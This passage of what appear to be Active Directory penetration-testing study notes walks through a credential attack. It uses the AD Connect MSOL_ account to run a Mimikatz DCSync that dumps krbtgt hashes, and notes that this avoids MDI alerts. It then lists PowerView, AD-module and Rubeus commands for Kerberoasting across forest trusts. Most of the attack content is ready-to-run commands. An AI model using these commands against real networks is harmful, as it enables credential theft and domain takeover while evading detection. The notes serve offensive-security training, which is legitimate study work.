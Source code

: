 > [Note] The above script's code runs powershell.exe so verbose logs (like transcripts) will be there.

With the password, we can run commands as **MSOL_**:
```powershell
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

And can then execute the DCSync attack:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

> [NOTE] Because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the **MSOL_** account will be **excluded from tools like MDI**! 

> This will allow us to run DCSync without any alerts!



# Forest Root

- Child to Forest Root - Trust Key
- Child to Forest Root - krbtgt

same material of CRTP:

[CRTP - Privesc Across Trusts](https://johnermac.github.io/notes/crtp/domprivesc/#privesc---across-trusts)


 

# Kerberoast across Forest Trusts

> It is possible to execute Kerberoast across Forest trusts.

**Let's enumerate named service accounts across forest trusts**

Using PowerView:
```powershell
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```

Using ActiveDirectory Module:
```powershell
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

Request a TGS:
```powershell
   → C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

Check for the TGS:
```powershell
klist
```

